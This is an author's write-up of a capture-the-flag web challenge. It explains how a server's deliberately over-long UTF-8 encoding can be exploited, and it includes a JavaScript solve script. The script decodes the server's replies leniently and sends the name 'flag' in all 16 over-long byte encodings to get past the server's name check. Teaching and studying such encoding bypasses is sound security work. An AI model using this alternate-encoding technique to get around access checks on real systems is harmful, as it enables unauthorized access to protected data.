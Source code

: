 ## Author's Solution

*[Full write-up](https://sheeptester.github.io/longer-tweets/sdctf24/#webutf-wait)*

The way UTF-8 is defined, it can allow characters to be encoded in multiple ways, so the specification explicitly requires decoders to reject these over-long encodings.

This uses its own text encoder that is presented as a cute naive developer that wants Unicode support for their web server. However, the encoder produces invalid UTF-8 encodings by always producing over-long character encodings. Proper UTF-8 decoders, like those used in browsers, will not accept these encodings and will display U+FFFD, the invalid encoding character.

To solve this challenge, users must realize the encoding scheme used by the web server:

- The title, "UTF-wait," suggests the challenge involves UTF-8.
- Only emojis, which require the full 4 bytes to be encoded, are rendered correctly in the browser.

Then, the user must make their own lenient UTF-8 decoder to inspect the website source. From looking at the HTML, they can see that the server gives notes when given a note name in the request body. But `flag` returns a 404 error.

The user must figure out that they have to encode `flag` the same way the server does. There are 16 possible ways it could be encoded, which is kind of a brute force but not really.

```js
class TextDecoder {
  decode (bytes) {
    let expect = 0
    let str = ''
    let codePoint = 0
    for (const byte of bytes) {
      if (expect > 0) {
        if (byte >> 6 === 0b10) {
          codePoint <<= 6
          codePoint |= byte & 0b111111
          expect--
          if (expect === 0) {
            str += String.fromCodePoint(codePoint)
          }
        } else {
          console.warn(
            'expected continuation byte',
            byte.toString(2).padStart(8, '0')
          )
          str += '\ufffd'
        }
      } else {
        if (byte >> 5 === 0b110) {
          expect = 1
          codePoint = byte & 0b11111
        } else if (byte >> 4 === 0b1110) {
          expect = 2
          codePoint = byte & 0b1111
        } else if (byte >> 3 === 0b11110) {
          expect = 3
          codePoint = byte & 0b111
        } else if (byte >> 7 === 0b0) {
          str += String.fromCodePoint(byte)
        } else {
          console.warn('expected first byte', byte.toString(2).padStart(8, '0'))
          str += '\ufffd'
        }
      }
    }
    if (expect > 0) {
      console.warn('expected completed sequence')
      str += '\ufffd'
    }
    return str
  }
}
const gg = char => {
  const codePoint = char.codePointAt(0) ?? 0xfffd
  return [
    [codePoint],
    [
      0b110_00000 | ((codePoint >> 6) & 0b11111),
      0b100_00000 | (codePoint & 0b111111)
    ],
    [
      0b111_00000 | ((codePoint >> 12) & 0b1111),
      0b100_00000 | ((codePoint >> 6) & 0b111111),
      0b100_00000 | (codePoint & 0b111111)
    ],
    [
      0b111_10000 | ((codePoint >> 18) & 0b111),
      0b100_00000 | ((codePoint >> 12) & 0b111111),
      0b100_00000 | ((codePoint >> 6) & 0b111111),
      0b100_00000 | (codePoint & 0b111111)
    ]
  ]
}
for (const f of gg('f'))
  for (const l of gg('l'))
    for (const a of gg('a'))
      for (const g of gg('g')) {
        console.log(
          await fetch('.', {
            method: 'POST',
            body: new Blob([new Uint8Array([f, l, a, g].flat())])
          })
            .then(r => r.arrayBuffer())
            .then(b => new TextDecoder().decode(new Uint8Array(b)))
        )
      }
```

